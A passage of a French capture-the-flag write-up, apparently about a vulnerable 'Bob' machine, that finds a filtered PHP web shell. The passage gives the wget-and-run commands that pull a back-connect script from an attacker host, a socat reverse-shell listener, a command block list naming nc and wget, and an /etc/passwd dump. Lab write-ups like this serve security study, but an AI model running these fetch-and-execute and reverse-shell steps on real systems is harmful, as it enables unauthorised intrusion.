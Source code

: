 Ou dans la page de login :  

> If you are the new IT staff I have sent a letter to you about a web shell you can use  
> 
> -Bob

et dans le fichier *passwords.html* cité :  

> N.T.S Get Sticky Notes to Write Passwords in  
> 
> -Bob

Porte dérobée
-------------

Sur l'URL */dev\_shell.php* on a un shell PHP très basique.  

Ce dernier semble filtrer les commandes et on obtient par exemple le message *Get out skid lol* si on rentre *ls*. D'autres commandes ne retournent pas d'output, difficile alors de dire si la commande est absente ou si c'est le shell qui nous filtre. Dans tous les cas un *sleep 10* provoque bien une temporisation, signe que les commandes sont bien exécutées.  

Les deux commandes suivantes me permettent de passer de ce webshell à [un shell PTY](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_backconnect.py) plus agréable :  

```bash
/usr/bin/wget http://192.168.2.240:8000/tcp_pty_backconnect.py -O /tmp/backdoor.py
python /tmp/backdoor.py
```

On aura préalablement lancé un listener pty-aware sur notre machine :  

```bash
socat file:`tty`,echo=0,raw tcp4-listen:31337
```

Une fois le shell obtenu on peut jeter un œil (par simple curiosité) aux restrictions qui étaient faites par le shell PHP, comme :  

```php
$bad_words = array("pwd", "ls", "netcat", "ssh", "wget", "ping", "traceroute", "cat", "nc");
```

Sous la racine web on trouve un fichier *.hint* avec le contenu suivant :

```plain
Have you tried spawning a tty shell?
Also don't forget to check for hidden files ;)
```

En mode détective
-----------------

Comme d'habitude on note quelques utilisateurs dans */etc/passwd* :  

```plain
c0rruptedb1t:x:1000:1000:c0rruptedb1t,,,:/home/c0rruptedb1t:/bin/bash
bob:x:1001:1001:Bob,,,,Not the smartest person:/home/bob:/bin/bash
jc:x:1002:1002:James C,,,:/home/jc:/bin/bash
seb:x:1003:1003:Sebastian W,,,:/home/seb:/bin/bash
elliot:x:1004:1004:Elliot A,,,:/home/elliot:/bin/bash
sshd:x:116:65534::/run/sshd:/usr/sbin/nologin
proftpd:x:117:65534::/run/proftpd:/bin/false
ftp:x:118:65534::/srv/ftp:/bin/false
```
